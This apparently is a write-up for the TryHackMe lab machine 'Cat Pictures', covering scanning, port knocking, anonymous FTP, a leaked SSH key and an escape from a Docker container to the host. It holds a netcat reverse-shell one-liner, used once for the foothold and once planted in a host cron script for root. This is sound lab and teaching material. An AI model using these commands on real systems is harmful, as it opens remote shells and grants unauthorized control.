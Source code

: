 ```yaml
---
title : "Cat Pictures - Write Up"
date : 2021-07-03T16:56:05+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["nc","strings","knock","docker","TryHackMe"]
draft: true
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/catpictures)  | Easy  |  [gamercat](https://tryhackme.com/p/gamercat)  |

## Reconn

Using `nmap` we detect 3 ports `21 running FTP "filtered", 21 running SSH "open", 8080 running a web.`
```bash
└──╼ $map 10.10.51.194
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 16:21 CEST
Nmap scan report for 10.10.51.194
Host is up (0.088s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.65 seconds
```
Searching in the 8080 port, we find a post, saying: `Knock knock! Magic numbers: 1111, 2222, 3333, 4444`

So we knock on that ports [Maybe you need to run the command 2-3 times to work :)]

`knock 10.10.51.194 1111 2222 3333 4444`

Running `nmap` again, we can see that now the FTP port it's open, and accepts the Anonymous user!

```bash
└──╼ $map 10.10.153.159
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 17:04 CEST
Nmap scan report for 10.10.153.159
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.250
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.13 seconds
```
So let's login to the FTP and see what's inside.

```bash
╰─ lanfran@parrot ❯ ftp 10.10.51.194                                                                                               ─╯
Connected to 10.10.51.194.
220 (vsFTPd 3.0.3)
Name (10.10.51.194:lanfran): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 .
drwxr-xr-x    2 ftp      ftp          4096 Apr 02 14:32 ..
-rw-r--r--    1 ftp      ftp           162 Apr 02 14:32 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (162 bytes).
226 Transfer complete.
162 bytes received in 0.00 secs (53.0171 kB/s)
ftp> 
```

Reading the note, we get a new port, and the username:passord to login!

## Foothold - Flag 1

Unluckily it's not the SSH port, it's an "internal shell service"...

Let's use `netcat` to login

```bash
╰─ lanfran@parrot ❯ nc 10.10.51.194 4420                                                                                           ─╯
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
sardinethecat
Password accepted
ls -la
total 56
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 .
drwxr-xr-x 10 1001 1001 4096 Apr  3 01:30 ..
-rw-------  1 1001 1001   50 Apr  1 20:23 .bash_history
-rw-r--r--  1 1001 1001  220 Apr  1 20:21 .bash_logout
-rw-r--r--  1 1001 1001 3771 Apr  1 20:21 .bashrc
-rw-r--r--  1 1001 1001  807 Apr  1 20:21 .profile
drwxrwxr-x  2 1001 1001 4096 Apr  2 23:05 bin
drwxr-xr-x  2    0    0 4096 Apr  1 20:32 etc
drwxr-xr-x  3    0    0 4096 Apr  2 20:51 home
drwxr-xr-x  3    0    0 4096 Apr  2 22:53 lib
drwxr-xr-x  2    0    0 4096 Apr  1 20:28 lib64
drwxr-xr-x  2    0    0 4096 Apr  2 20:56 opt
drwxr-xr-x  2    0    0 4096 Apr  3 01:35 tmp
drwxr-xr-x  4    0    0 4096 Apr  2 22:43 usr
```
We now have to get a reverse shell, I usde the mkfifo shell, you can use other one!
I recommend you to use [revshells.com](https://revshells.com) to generate the commands for reverse shells. It's created and mantained by the CTF's community!

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 1337 >/tmp/f`

![Foothold](foothold.png)

Going through the directories, we find a binary in `/home/catlover` named "runme". I downloaded it to my local machine, and used `strings` to get the password.

```bash
╰─ lanfran@parrot ❯ strings runme                                                                                                  ─╯
/lib64/ld-linux-x86-64.so.2
[...]
r[REDACTED]a
Please enter yout password: 
Welcome, catlover! SSH key transfer queued! 
touch /tmp/gibmethesshkey
Access Denied
[...]
```
Great! We can now run the binary in the machine, and input the password!

```bash
# ./runme
Please enter yout password: [REDACTED]
Welcome, catlover! SSH key transfer queued!
# ls -la
total 32
drwxr-xr-x 2 0 0  4096 Jul  4 11:17 .
drwxr-xr-x 3 0 0  4096 Apr  2 20:51 ..
-rw-r--r-- 1 0 0  1675 Jul  4 11:17 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3 01:35 runme
```
I copied the id_rsa file to my local machine, and used it to SSH in.

```bash
╰─ lanfran@parrot ❯ ssh catlover@10.10.51.194 -i id_rsa                                                                            ─╯
[...]
root@7546fa2336d6:/# cd /root
root@7546fa2336d6:/root# ls -la
total 24
drwx------ 1 root root 4096 Mar 25 16:28 .
drwxr-xr-x 1 root root 4096 Mar 25 16:18 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x 3 root root 4096 Mar 25 16:26 .local
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   41 Mar 25 16:28 flag.txt
root@7546fa2336d6:/root# cat flag.txt 
7[REDACTED]9
```
## Flag 2 - Root

Great, we have the first flag!

We are now the root user of a docker container, so we need to escalate to the root user of the host.

Going through the files and reading the crontab, we find a cron script running inside the host machine! 

Add a reverse shell to it, and get a root rev shell to the host!!!

```bash
root@7546fa2336d6:/root# cat /opt/clean/clean.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.21 9999 >/tmp/f
```
After some seconds, we get a rev shell!

Get the Flag 2.
```bash
╰─ lanfran@parrot ❯ nc -nlvp 9999                                                                                                  ─╯
listening on [any] 9999 ...
connect to [10.9.6.21] from (UNKNOWN) [10.10.51.194] 57996
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
Congrats!!!
Here is your flag:

[REDACTED]
```

And we rooted the machine!

That's all from my side, hope you find this helpful!